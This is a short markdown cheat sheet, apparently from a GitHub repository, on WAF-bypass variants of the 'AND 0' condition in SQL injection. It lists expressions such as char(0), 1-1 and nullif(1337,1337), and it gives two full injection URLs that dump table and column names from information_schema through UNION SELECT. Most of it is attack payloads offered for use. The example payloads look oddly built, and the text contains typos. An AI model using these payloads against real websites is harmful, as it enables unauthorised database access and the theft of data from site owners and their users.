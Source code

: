 # The Alternative WAY of using And 0 in SQL Injection

## The traditional way of using **And 0**  
```
And 1=0
And false
And 0
And 50=60 
Any number that are not the same will equal to (0,false,null)
```

## The alternative way of using **And 0** for WAF Bypass purpose

### Using char() for 0, null, false values
```
And char(0)
And char(false)
And char(null)
```

### Any Mathematical/Arithmetic or Logical Problem's that equal to 0
```
And 1*0
And 1-1
And 0/1
```

### Using **and nuliff(1336,1337)**
If one arguments is different nullif(1336,1337) it return the first argument and it will consider as true.So no need to use this.But sometimes it works. Since both arguments are equal it return as null value or it's considered as false,0,null and it will valid as Bypass Method in SQL.

```
And nullif(1337,1337)
```

## Example:

Using **char(0)**
```
http://website.com/index.php?id=1 and char(0) Union Select '1 and char(0) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
```

Using **nullif(1337,1337)**
```
http://website.com/index.php?id=1 and nullif(1337,1337) Union Select '1 and nullif(1337,1337) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
```
